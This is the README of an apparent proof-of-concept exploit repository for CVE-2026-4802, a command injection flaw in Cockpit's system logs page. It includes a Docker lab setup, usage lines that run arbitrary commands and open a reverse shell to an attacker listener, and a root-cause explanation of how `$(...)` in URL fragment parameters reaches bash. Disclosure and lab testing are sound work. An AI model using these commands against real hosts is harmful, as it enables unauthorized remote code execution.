

# CVE-2026-4802 - Remote Code Execution via Command Injection in Cockpit

A proof-of-concept exploit for CVE-2026-4802, a Remote Code Execution via Command Injection in Cockpit's system logs UI (`loadServiceFilters()`)

## Setup

Build and run the vulnerable environment:

```bash
$ docker build -t cockpit-vuln .
$ docker run --rm -d --privileged -p 9090:9090 cockpit-vuln
```

## Usage

```bash
# Check if target is vulnerable
$ python3 poc.py --url http://localhost:9090 --user viewer --pass viewer --mode check

# Execute arbitrary commands
$ python3 poc.py --url http://localhost:9090 --user viewer --pass viewer --mode exec --cmd "id"

# Reverse shell
$ python3 poc.py --url http://localhost:9090 --user viewer --pass viewer --mode reverse --lhost 10.0.0.1 --lport 4444
```



## Vulnerable Versions

- Cockpit (unpatched versions with `pkg/systemd/logsJournal.jsx`)

## Root Cause

The `loadServiceFilters()` function in `pkg/systemd/logsJournal.jsx` constructs shell commands by joining arrays into strings with only space escaping before passing them to `/bin/bash -ec`. User-controlled parameters from the logs page URL fragment (e.g. `--since=`) reach this code path unsanitized, allowing injection of shell metacharacters such as command substitution (`$(...)`).

# Disclaimer

This tool is for educational and research purposes only. Use it only on systems you own or have explicit permission to test. The author is not responsible for any misuse or damage caused by this program.

# QuimeraX Intelligence

QuimeraX Intelligence is an advanced EASM and Cyber Threat Intelligence platform specializing in identifying critical vulnerabilities in complex systems. The platform proactively monitors, detects, and alerts clients about security threats, ensuring transparency and rapid response to potential risks. Clients receive immediate notifications and comprehensive reports if their systems are found vulnerable, enabling them to take protective action. [learn more](https://hakaisecurity.io/quimera-team/)

# Hakai Security

[Hakai Security](https://hakaisecurity.io/) is a cybersecurity company founded by security professionals, committed to technical excellence. We offer tailored security solutions including advanced penetration testing, realistic Red Team simulations, and secure development practices to proactively protect our clients's assets from evolving cyber threats.

# References

- https://bugzilla.redhat.com/show_bug.cgi?id=2451155
- https://access.redhat.com/security/cve/CVE-2026-4802
- https://www.cve.org/CVERecord?id=CVE-2026-4802
